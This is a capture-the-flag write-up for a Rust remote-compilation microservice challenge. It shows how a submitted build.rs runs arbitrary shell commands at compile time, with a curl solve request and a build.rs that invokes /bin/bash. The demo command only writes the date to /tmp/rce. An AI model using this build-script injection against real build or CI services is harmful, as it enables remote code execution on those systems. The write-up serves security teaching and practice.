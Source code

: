 # Build And Drustroy

## Desc

- I love rust because it's secure and fast. So I want people to do MOAR rust.
- That's why I made a microservice to allow fast and easy remote code compilation.
- Send my your code, I'll compile it, and I know for sure I'm safe!

```bash
curl -sS -X POST -H 'Content-Type: application/json' http://127.0.0.1:3000/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }"}' --output binary
file binary # binary: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, ...
```

## Goal

- Abuse build.rs to inject a compile-time command executions
- Spawn a shell
- Read flag

## Doc

- <https://www.rust-lang.org/learn>
- <https://doc.rust-lang.org/cargo/reference/build-scripts.html>

## Solve

```bash
curl -sS -X POST -H 'Content-Type: application/json' http://127.0.0.1:3000/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }", "build.rs": "fn main() {use std::process::Command;let output = Command::new(\"/bin/bash\").arg(\"-c\").arg(\"date > /tmp/rce\").output().expect(\"failed to execute process\");}"}' --output binary
```

## Clean build.rs file for RCE

```rs
fn main() {
    println!("Henlo build 🧙");
    use std::process::Command;
    let output = Command::new("/bin/bash")
                         .arg("-c")
                         .arg("date > /tmp/rce")
                         .output()
                         .expect("failed to execute process");

    println!("status: {}", output.status);
    println!("stdout: {}", String::from_utf8_lossy(&output.stdout));
    println!("stderr: {}", String::from_utf8_lossy(&output.stderr));
}
```
